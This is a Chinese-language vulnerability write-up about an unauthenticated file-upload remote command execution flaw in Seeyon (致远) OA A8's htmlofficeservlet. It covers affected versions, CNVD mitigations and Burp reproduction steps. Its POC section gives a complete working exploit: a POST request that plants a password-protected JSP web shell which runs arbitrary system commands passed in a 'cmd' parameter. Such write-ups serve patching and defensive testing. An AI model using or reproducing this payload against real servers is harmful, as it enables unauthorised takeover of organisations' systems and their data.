 # 致远 OA A8 系统远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/1.html](http://book.iwonder.run/0day/致远 oa/1.html)

## 一、漏洞简介

该系统的漏洞点在于致远 OA-A8 系统的 Servlet 接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

## 二、漏洞影响

漏洞影响的产品版本包括：

致远 A8-V5 协同管理软件 V6.1sp1

致远 A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远 A8+协同管理软件 V7.1

漏洞处置建议

临时修补方案如下：

1、 配置 URL 访问控制策略；

2、 在公网部署的致远 A8+服务器，通过 ACL 禁止外网对“/seeyon/htmlofficeservlet”路径的访问；

3、 对 OA 服务器上的网站后门文件进行及时查杀。

建议使用致远 OA-A8 系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。 详情请移步 CNVD 官网查看[https://www.cnvd.org.cn/webinfo/show/5095](https://www.cnvd.org.cn/webinfo/show/5095)

## 三、复现过程

先访问/seeyon/htmlofficeservlet ![image](img/77df895f8ca5d77ed82aa5501ded4653.png) 出现 DBSTEP V3.0 0 21 0 htmoffice operate err ![image](img/d4a92365af6c33ec6c5ccaf2a0f0fb32.png) 掏出 burp 进行抓包替换成 poc 如下 ![image](img/2929bf6e5e667482b71b71ea35e8c4fc.png) 提交 POST 请求包，查看回显如下 ![image](img/c05096c1edf799267fd00a3367fae213.png)

### 小结

POC：(POST 包)

```
POST /seeyon/htmlofficeservlet HTTP/1.1
Content-Length: 1121
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: xxxxxxxxx
Pragma: no-cache

DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce 
```


